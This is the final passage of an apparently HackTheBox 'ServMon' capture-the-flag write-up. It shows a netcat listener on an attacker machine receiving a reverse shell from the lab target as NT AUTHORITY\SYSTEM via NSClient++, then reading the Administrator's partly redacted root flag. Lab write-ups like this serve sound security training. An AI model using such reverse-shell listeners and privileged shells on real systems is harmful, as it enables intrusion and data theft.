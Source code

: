 ![image](/assets/img/post/htb/servmon/11.png)

<b>root.txt</b>

Then, we can get a `NT SYSTEM` shell and read the `root.txt` flag.

```console
root@kali:~/Documents/htb/box/servmon# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50197.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type c:\Users\Administrator\Desktop\root.txt
type c:\Users\Administrator\Desktop\root.txt
6353 ***REDACTED*** 0e42
```

Thanks for reading!

